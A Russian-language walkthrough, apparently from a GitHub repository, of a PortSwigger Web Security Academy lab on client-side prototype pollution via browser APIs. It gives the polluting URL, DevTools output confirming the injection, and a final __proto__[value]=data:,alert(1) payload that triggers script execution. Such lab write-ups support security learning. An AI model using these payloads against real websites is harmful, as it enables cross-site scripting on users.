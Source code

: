 Перейдем на уязвимый ресурс, и модифицируем URL на
```
https://0a35005003ffb22b8096bc63005e00b0.web-security-academy.net/?__proto__[value]=car
```

так же в DevTools заметим 
```
Object.prototype

{value: 'car', a42e5579: 'lcfrh0xe', dcb52823: 'lcfrh0xe', constructor: ƒ, __defineGetter__: ƒ, …}
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/28.%20Prototype%20pollution/1.%20Client-side%20prototype%20pollution%20via%20browser%20APIs/pics%20for%20walkthrough/2.png)

что ознначает нашу инъекцию успешной

далее перейдем в `Sources` -> `resources` -> `js` -> `searchLoggerConfigurable.js`

и увидим следующий `js` код, что выпал в ошибку
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/28.%20Prototype%20pollution/1.%20Client-side%20prototype%20pollution%20via%20browser%20APIs/pics%20for%20walkthrough/1.png)
```
/?__proto__[value]=data:,alert(1);
```
модифицируем запрос и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/28.%20Prototype%20pollution/1.%20Client-side%20prototype%20pollution%20via%20browser%20APIs/pics%20for%20walkthrough/3.png)
